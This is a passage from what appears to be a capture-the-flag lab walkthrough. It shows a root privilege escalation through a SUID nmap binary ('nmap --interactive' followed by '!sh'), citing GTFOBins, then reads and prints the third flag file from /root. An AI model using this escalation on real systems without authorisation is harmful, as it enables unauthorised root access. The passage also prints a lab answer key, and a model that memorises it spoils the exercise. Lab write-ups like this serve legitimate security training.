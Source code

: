 (https://gtfobins.github.io/gtfobins/nmap/#suid%5C)
<img src="./img/Screenshot 2024-08-24 125339.png"></img>
Look for nmap
```text
nmap --interactive
```

```text
!sh
```
<img src="./img/Screenshot 2024-08-24 130348.png"></img>
we got the root
change into root directory
```text
cd /root
ls
cat key-3-of-3.txt
```
<img src="./img/Screenshot 2024-08-24 130404.png"></img>
<img src="./img/Screenshot 2024-08-24 130828.png"></img>```
```text
key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

```

All three keys are found.